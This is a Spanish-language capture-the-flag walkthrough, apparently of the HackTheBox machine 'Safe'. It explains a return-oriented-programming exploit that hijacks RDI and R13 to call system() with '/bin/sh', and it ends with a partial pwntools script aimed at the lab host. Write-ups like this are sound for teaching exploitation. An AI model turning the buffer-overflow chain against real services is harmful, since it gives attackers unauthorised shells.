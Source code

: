         Aqui vemos que en el **rdi** esta la string correspondiendo al `/usr/bin/uptime` que es el comando que seria ejecutado por **system()**

Ahora que sabemos que el argumento pasado en la funccion **system()** tiene que ser previamente definida en el registro `rdi`, miramos de que manera
podemos tomar el control de este registro para poner el comando que queremos.

Para hacer este truco, el Tito nos recomiendo en primer lugar inspeccionar el resto de funcciones existentes. Si lo miramos con **Ghidra** en el Symbol Tree,
vemos que hay una funccion que se llama test y que contiene las ejecuciones siguientes:

```{r, echo = FALSE, fig.cap="test function inspection", out.width="90%"}
    knitr::include_graphics("images/Safe-test-fct-inspection.png")
```

Aqui podemos ver que en esta funccion copia el contenido del **RSP** en el **RDI**. Esto nos cae de lujo porque con las 120 A, hemos ganado el control del **RSP**.
Esto quiere decir que si logramos desde el `rsp` lanzar la funccion *test()*, cuando termine esta funccion, nos copiara lo que hay en el `rsp` en le `rdi`. Si conseguimos
hacerlo, y que llamamos a la funccion system, nos lanzara el comando `system()` con el valor del `rdi` La difficultad de esta tecnica reside en manejar el flujo del
programa como nosotros queremos.
Si miramos la funccion test, vemos que justo despues de la copia del `rsp` al `rdi`, hay un comando **JMP** que significa Jump al registro **R13** donde a dentro, existe
una direccion (por el momento desconocida).
Aqui la idea seria cambiar lo que hay en el registro `R13` para injectarle la direccion de la function `system()`.

Para hacer este truco, tenemos que pasar por Gadgets que seria un ropper en este caso. Podemos usar **gef** para buscar si existe un Gadget en este registro.

```bash
gef➤  ropper --search "pop r13"
```

```{r, echo = FALSE, fig.cap="gef search for gadgets", out.width="90%"}
    knitr::include_graphics("images/Safe-gadget-r13.png")
```

Aqui vemos que tenemos un Gadget `pop r13; pop r14; pop r15;` y tenemos la direccion **401206**. Esto quiere decir que podemos meter la direction de **system()** en
`r13` y por lo de `r14` y `r15`, pondremos un byte nullo.

Para esto uzaremos el exploit.

```python
#!/usr/bin/python3

from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)
# p = gdb.debug('./myapp', 'b *main')

p.recvuntil("What do you want me to echo back?")

# gef➤  ropper --search "pop r13"
# 0x0000000000401206: pop r13; pop r14; pop r15; ret;
pop_r13 = p64(0x401206)
junk = ("A"*112).encode()
bin_sh = "/bin/sh\x00".encode()
# JMP => r13 [system()]
# 0000000000401040 <system@plt>:
#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>
system_plt = p64(0x40116e)
null = p64(0x0)
```